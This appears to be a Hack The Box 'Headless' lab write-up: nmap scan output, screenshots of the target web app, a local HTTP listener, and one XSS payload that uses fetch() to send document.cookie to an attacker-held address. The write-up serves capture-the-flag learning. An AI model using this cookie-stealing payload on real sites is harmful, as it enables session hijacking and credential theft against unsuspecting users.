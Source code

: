 # Headless Write-up

<img src="https://labs.hackthebox.com/storage/avatars/26e076db204a74b99390e586d7ebcf8c.png" width="200" height="200">

## Nmap

`nmap -sC -sV headless.htb`

    PORT      STATE    SERVICE    VERSION
    22/tcp    open     ssh        OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
    | ssh-hostkey: 
    |   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
    |_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
    1130/tcp  filtered casp
    1524/tcp  filtered ingreslock
    2068/tcp  filtered avocentkvm
    5000/tcp  open     upnp?
    | fingerprint-strings: 
    |   GetRequest: 
    |     HTTP/1.1 200 OK
    |     Server: Werkzeug/2.2.2 Python/3.11.2
    |     Date: Mon, 25 Mar 2024 08:28:56 GMT
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 2799
    |     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
    |     Connection: close
    |     <!DOCTYPE html>
    |     <html lang="en">
    |     <head>
    |     <meta charset="UTF-8">
    |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
    |     <title>Under Construction</title>
    |     <style>
    |     body {
    |     font-family: 'Arial', sans-serif;
    |     background-color: #f7f7f7;
    |     margin: 0;
    |     padding: 0;
    |     display: flex;
    |     justify-content: center;
    |     align-items: center;
    |     height: 100vh;
    |     .container {
    |     text-align: center;
    |     background-color: #fff;
    |     border-radius: 10px;
    |     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
    |   RTSPRequest: 
    |     <!DOCTYPE HTML>
    |     <html lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <title>Error response</title>
    |     </head>
    |     <body>
    |     <h1>Error response</h1>
    |     <p>Error code: 400</p>
    |     <p>Message: Bad request version ('RTSP/1.0').</p>
    |     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
    |     </body>
    |_    </html>
    19842/tcp filtered unknown
    65129/tcp filtered unknown
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5000-TCP:V=7.94SVN%I=7%D=3/25%Time=660135C7%P=x86_64-pc-linux-gnu%r
    SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
    SF:x20Python/3\.11\.2\r\nDate:\x20Mon,\x2025\x20Mar\x202024\x2008:28:56\x2
    SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
    SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
    SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
    SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
    SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
    SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
    SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
    SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
    SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
    SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
    SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
    SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
    SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
    SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
    SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
    SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
    SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
    SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
    SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
    SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
    SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
    SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
    SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
    SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
    SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![image](https://github.com/zer00d4y/writeups/assets/128820441/95bbcb05-a8e7-4a45-b42d-b68849be0c5e)

/support

![image](https://github.com/zer00d4y/writeups/assets/128820441/be651cdc-f8f6-4a41-a3a1-483c2113a2ce)

/dashboard

![image](https://github.com/zer00d4y/writeups/assets/128820441/d96a0e21-7862-4d65-b2f6-1d9e13ce3c98)

![image](https://github.com/zer00d4y/writeups/assets/128820441/65cbc8cd-0826-4b08-9043-cf5c1a187776)

![image](https://github.com/zer00d4y/writeups/assets/128820441/12cd84a3-b7ec-47cb-bea8-793b063db8ee)

    python3 -m http.server 80

![image](https://github.com/zer00d4y/writeups/assets/128820441/3bbe5026-5eaa-4c1e-a447-4093f7ed8fa7)

    <img src=x onerror=fetch('http://IP-ADDRESS/'+document.cookie);>

![image](https://github.com/zer00d4y/writeups/assets/128820441/50786230-f4ed-4b7e-b867-d4294a8e6bd1)
